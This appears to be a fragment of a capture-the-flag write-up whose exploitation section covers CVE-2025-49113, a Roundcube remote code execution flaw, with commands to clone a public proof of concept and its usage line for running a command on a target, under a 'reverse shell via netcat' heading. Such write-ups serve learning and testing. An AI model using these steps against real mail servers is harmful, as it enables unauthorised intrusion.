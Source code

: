 ![](<./attachments/Outbound-2.png>)

---
# Exploitation
## CVE-2025-49113 - Roundcube Remote Code Execution
![](<./attachments/Outbound-3.png>)
### Reverse Shell via netcat
using this proof of concept([POC](https://github.com/hakaioffsec/CVE-2025-49113-exploit)) from `hakaioffsec`
```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
cd CVE-2025-49113-exploit
```
**Ussage**
```bash
php CVE-2025-49113.php <url> <username> <password> <command>
```
